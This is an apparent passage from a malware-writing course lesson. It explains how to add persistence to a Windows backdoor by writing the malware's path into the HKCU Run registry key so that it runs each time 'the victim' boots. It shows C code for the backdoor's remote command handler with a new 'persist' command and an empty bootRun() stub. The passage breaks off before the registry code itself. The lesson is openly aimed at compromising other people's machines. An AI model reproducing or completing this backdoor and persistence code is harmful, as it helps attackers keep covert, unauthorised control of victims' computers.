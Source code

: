 ```yaml
---
title: Creating persistence
course: code_malware
section: "Adding functionalities"
layout: lesson
---
```


In order to add a persistence functionality to our malware, we will need to
register an entry into the Window's registry.

In there, is a registry section in which if you add a value with a program's
path, it will let the program to be executed every time the computer is
restarted. That section is located at:

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

In that path, is where we are going to store our malware's path, in order to
execute it everytime the victim boots up their computer.

To do so, open the "Backdoor.c" file go to the "_Shell_" function and add a new
"_if_" statements so we can create a personalised command that, when sent to the
client it will add the registry value. The entire "_if/else_" statements would
look like this:

```c
if (strncmp("q", buffer, 1) == 0) {
  closesocket(sock);
  WSACleanup();
  exit(0);
} else if(strncmp("cd ", buffer, 3) == 0) {
  chdir(str_cut(buffer, 3, 100));
} else if(strncmp("persist", buffer, 7) == 0) {
  bootRun();
}
```

As you can see, I added a new comparison with the "_persist_" command, when sent
by the server, it will execute the "_bootRun_" function (which we haven't
declared yet).

Let's create an int function at the top of our code (below of _int sock;_):

```c
int bootRun() {
}
```

Why are we defining this function as an integer? Because we want to return a
value, for example, if everything executed correctly and there were no problems,
the "_bootRun_" function will return a "0", but if something went wrong, it will
return "_-1_".

Inside of the "_bootRun_" function, we will create two new variables which will
contain a message to provide an output, one of them will be a "_Success_" message,
 and the other one will contain a "_Something went wrong_" message. Add the following
code inside of your "_bootRun_" function:
